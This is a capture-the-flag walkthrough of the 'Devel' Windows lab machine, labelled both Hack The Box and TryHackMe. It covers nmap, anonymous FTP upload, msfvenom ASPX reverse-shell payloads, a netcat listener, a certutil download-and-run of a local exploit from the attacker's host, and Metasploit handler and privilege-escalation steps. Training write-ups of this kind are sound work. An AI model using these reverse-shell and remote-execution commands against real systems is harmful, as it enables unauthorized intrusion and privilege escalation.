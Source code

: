 ```yaml
---
title: Devel Writeup - Hack The Box
published: 2023-08-20
description: 'A walkthrough of the Devel machine on Hack The Box, covering basic enumeration and exploitation using public exploits.'
image: './cover.jpg'
tags: [Exploitation, Enumeration]
category: 'HackTheBox'
draft: false
---
```


# TryHackMe Devel Walkthrough – Manual and Metasploit Methods

**Devel** is a beginner-friendly vulnerable machine that highlights risks caused by default configurations. It can be exploited using publicly available tools and basic enumeration.

---

## Nmap Scan

We begin with a basic `nmap` scan to discover open ports and services:

```bash
nmap -sC -sV -p- MACHINE_IP
```

![command](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WBgz1osSej3wtX3A75LK7g.png)

From the results, we find two key open ports:

* **21 (FTP)** – with anonymous login enabled
* **80 (HTTP)** – hosting a web server

![nmap\_scan](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*mSVM4jP8kZWk0Az3tGfFmw.png)

---

## Step 1: Confirming FTP-HTTP Link

Visit the website on port 80 – a welcome image (`welcome.png`) is displayed.

![saving image](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*DFwiOUqfrPRR82WAAjGxpg.png)

We notice that this file also appears in the FTP directory. This suggests the web server pulls files directly from the FTP root.

![image\_name](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*fNod9gS3wlmIU4i23Fwudw.png)

To confirm, upload a file (`test.txt`) using anonymous FTP, then access it via the browser:

```bash
ftp MACHINE_IP
put test.txt
```

![sending \_ftp](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Ak_UnrNV39IWApGqO18HWA.png)
![Traversing](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*CVvJNBX8QYedfqGfb8iARQ.png)

---

## Step 2: Web Tech Detection

Using Wappalyzer or similar tools, we identify the site runs **Microsoft ASP.NET**.

![wappalyzer](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*nj2optk8WvyWhY_zHRmOSw.png)

After quick research, we confirm `.aspx` is the extension in use:

![google\_search](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*yo2Nc0v8X3mHPKWIr7Oe0Q.png)

---

## Method 1: Manual Exploitation (Netcat)

Generate a reverse shell payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > rev.aspx
```

![msfvenom\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Kuy1ctiK99Yl9FOucrv7TA.png)

Upload the payload via FTP:

```bash
ftp MACHINE_IP
put rev.aspx
```

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*wg2etjBDW8lN_QPOPXa8OA.png)

Start a listener:

```bash
nc -lvnp 4444
```

![netcat\_listening](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*OGK6JEvvSSgCQzGHmKkzTA.png)

Execute the payload via browser:

```
http://MACHINE_IP/rev.aspx
```

![rev.aspx](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*WqH8Ikjr2OUCFPgBHTWwtw.png)

We receive a shell as a low-privileged user:

![low\_level\_user](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*tsbsIdTKnRnHrEXOSenz5g.png)

---

## Privilege Escalation (Manual)

Run `systeminfo` to gather system details:

```bash
systeminfo
```

![systeminfo](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*a70dgV4wG9lAlfxEtnyKXw.png)

Search for known exploits using OS version info:

[Search: Windows 7 Enterprise build 7600 x86 exploit](https://www.google.com/search?q=Windows+7+Enterperise+build+7600+x86+exploit)

![exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*GXdcIu6pBwxCiM8_q6_4-g.png)

Download with `searchsploit`, serve via Python:

```bash
searchsploit -m exploit/windows/local/XXXXXXXX
python3 -m http.server 80
```

![searchsploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*R2VeWKFOw6wW1qpWEwMxQQ.png)
![Python\_sever](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*lyeMCUukG6sm9T49Km9NCw.png)

Download and run from victim using `certutil`:

```bash
certutil -urlcache -f http://YOUR_IP/exploit.exe exploit.exe
exploit.exe
```

![downlaod\_exploit](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*1x1UCnmP8oXLteJT1nP8eg.png)

---

### Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Method 2: Automated Exploitation (Metasploit)

Generate a Meterpreter payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f aspx > shell.aspx
```

![payload\_creation](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_xMRB4RpfzZmbhhA_CKn2g.png)

Upload it to the server via FTP:

![sending\_payload](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*Jlw4_4nI_Z-YprDTcuNSwA.png)

Set up Metasploit multi/handler:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run
```

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*D76KwkvYc5tepQxTiFWxow.png)

Trigger the shell:

```
http://MACHINE_IP/shell.aspx
```

![reverse\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*thbnALazl5syQKfBGnU6xA.png)

Get Meterpreter access:

![get\_shell](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*_dPxU7-hRRoAggKQj9UbbA.png)

Run post-exploitation module:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```

![exploit\_suggestor](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*USWEXv66U-FsdfdmqAf4GQ.png)

Exploit with `ms10_015_kitrap0d`:

![exploit\_setting](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*V7N0xKby7SDnL8yojzYM6w.png)

---

### Final Flags

**Flag 1:**
![Flag:1](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*31SwfGdmkH0-IeJpQe7MOA.png)

**Flag 2:**
![Flag:2](https://miro.medium.com/v2/resize\:fit:1400/format\:webp/1*i86DS3j2sCLr02uUhWZwSA.png)

---

## Conclusion

Devel demonstrates the risk of misconfigured services (FTP, ASP.NET) and how attackers can exploit them with simple privilege escalation techniques. Both manual and Metasploit methods highlight the same vulnerabilities but with different workflows.
